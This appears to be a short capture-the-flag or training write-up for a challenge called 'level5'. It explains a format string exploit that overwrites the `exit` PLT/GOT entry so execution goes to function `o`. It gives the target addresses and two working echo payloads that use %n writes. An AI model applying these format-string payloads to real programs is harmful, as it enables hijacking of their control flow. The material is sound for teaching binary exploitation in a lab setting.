 # level5

This time, we need to use the format exploit to overwrite of the address of `exit`
in the `plt` and redirect it to function `o`.

## Useful infos

`readelf -r level5`  
address to overwrite: 0x08049838 = \x38\x98\x04\x08  
new value: 0x080484a4 = 134513828 (address of `o`)

exploit: `echo -e "\x38\x98\x04\x08%134513824x%4\$n"`  
exploit: `echo -e "\x38\x98\x04\x08%134513808x%x%x%n"`